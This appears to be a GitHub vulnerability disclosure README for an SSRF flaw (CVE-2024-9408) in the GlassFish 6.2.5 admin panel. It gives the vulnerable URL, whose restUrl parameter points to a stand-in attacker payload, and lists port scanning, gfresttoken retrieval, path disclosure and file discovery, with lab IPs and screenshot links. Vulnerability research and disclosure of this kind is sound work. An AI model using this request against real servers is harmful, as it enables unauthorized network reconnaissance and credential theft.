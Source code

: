 ## Glassfish 6.2.5 Server Side Request Forgery Vulnerability ( CVE-2024-9408 )

SSRF (Server-Side Request Forgery) is a vulnerability that allows an attacker to force the application to send requests from the server to internal or external resources of the attacker's choosing. This can enable the attacker to perform internal port scanning, discover services accessible only from the server, and bypass firewalls to reach otherwise restricted systems.

**Vulnerable Path** : https://[targetexample]:4848/download/log/?contentSourceId=LogViewer&restUrl=https%3A%2F%2F[evilpayload]

**Research Os** : Ubuntu 22.04 , Windows Server 2019  

**Vulnerable Parameter** : restUrl

### Impact
------------------------------------------------               
- [x] Port Scan and Network Discovery
- [x] Information disclosure
- [x] File Discovery


### Sample Attack Scenario
--------------------------------------------
![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/glassfish%20Scenario.jpg)

On GlassFish version 6.2.5, an attacker can exploit the ```restUrl``` parameter within the admin panel to trigger an SSRF vulnerability. In addition to performing port and subnet enumeration, the attacker can leverage the vulnerable GlassFish server to interact with their own machine listening within the network, leading to further exploitation such as path disclosure and file discovery. This significantly expands the attack surface.

### Vulnerability Discovery and Port Scanning
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan1.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan2.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan3.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan4.png)

### Obtain gfresttoken 
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken1.PNG)


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken2.PNG)

### Path Disclosure
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.160 -  Windows Server Glassfish 6.2.5

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/pathdisclosure.PNG)

### File Discovery 
------------------------------------------------
An attacker can use the GlassFish server as a proxy and, by listening on the network, perform file discovery within the target web server.


**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Windows Server Glassfish 6.2.5

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery1.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery2.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery3.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery4.PNG)


